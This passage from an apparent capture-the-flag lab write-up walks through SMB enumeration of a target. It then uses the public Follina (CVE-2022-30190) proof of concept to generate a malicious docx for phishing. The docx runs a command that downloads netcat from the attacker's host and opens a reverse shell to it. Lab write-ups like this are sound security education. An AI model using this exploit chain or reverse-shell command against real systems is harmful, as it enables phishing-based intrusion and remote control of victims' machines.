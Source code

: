 Also, we know that this is a WSUS machine. The `Shares` share has a single PDF:

```
$ smbclient //10.129.193.194/Shares -N           
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Jun 20 11:01:33 2022
  ..                                  D        0  Mon Jun 20 11:01:33 2022
  NOC_Reminder.pdf                   AR   106977  Mon Jun 20 11:00:32 2022
```

When we view the PDF, it talks about how the systems are vulnerable to some CVEs, and that we have to send an email to `itsupport@outdated.htb` for it.&#x20;

<figure><img src="../../../.gitbook/assets/image (10) (9).png" alt=""><figcaption></figcaption></figure>

We have to sent a link to web applications, meaning someone will click on our links. We can start with researching the vulnerabilities listed in the PDF. The first CVE (also known as Follina) is an RCE vulnerability that makes use of a HTML file that the user has to click to execute arbitrary code.&#x20;

This looks like the one that we need. I used this PoC below:

{% embed url="https://github.com/chvancooten/follina.py" %}

All we have to do is create a `docs` file that runs a command to give us a reverse shell:

```
$ python3 follina.py -t docx -m command -c "IWR http://10.10.14.13:8000/nc64.exe -outfile C:\\windows\\tasks\\nc.exe; C:\\windows\\tasks\\nc.exe -e cmd.exe 10.10.14.13 4444"
Generated 'clickme.docx' in current directory
Generated 'exploit.html' in 'www' directory
Serving payload on http://localhost:80/exploit.html
```

Then, we need to send an email to the user:
